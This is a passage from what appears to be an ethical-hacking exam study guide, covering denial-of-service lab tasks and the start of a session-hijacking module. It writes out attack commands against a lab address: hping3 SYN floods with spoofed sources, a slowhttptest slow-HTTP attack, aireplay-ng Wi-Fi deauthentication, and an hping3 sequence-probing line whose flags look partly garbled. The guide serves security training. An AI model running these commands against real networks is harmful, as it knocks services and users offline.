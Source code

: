 - **Must-know tools**: LOIC, HOIC (GUI alternatives)

  

### Real-World Exam Lab

```

# Task: Test DoS Protection

1. hping3 -S -p 80 --flood -a random 10.10.10.10

2. slowhttptest -c 500 -H -u http://10.10.10.10

3. aireplay-ng --deauth 100 -a AP:MAC wlan0mon

4. tcpdump -i eth0 -nn 'icmp' -c 1000 > icmp_flood.pcap

```

# Run these until automatic:

hping3 -S -p 80 --flood 10.10.10.10

slowhttptest -c 1000 -H -u http://10.10.10.10

aireplay-ng --deauth 100 -a AP:MAC wlan0mon

netstat -n -p tcp | grep SYN_RECV

    
**[Back to top](#top)**

___

## Module 11: Session Hijacking

## Module 11: Session Hijacking

  

### TCP Session Hijacking (Exam Weight: 25%)

  

### Sequence Number Prediction (Manual)

```

hping3 -S -p 80 -s 54321 --tcp-timestamp -a 10.10.10.10 --keep -c 3 -L 12345 -M 12346 -N 12347 -w 64

```

## Hunt for Session IDs
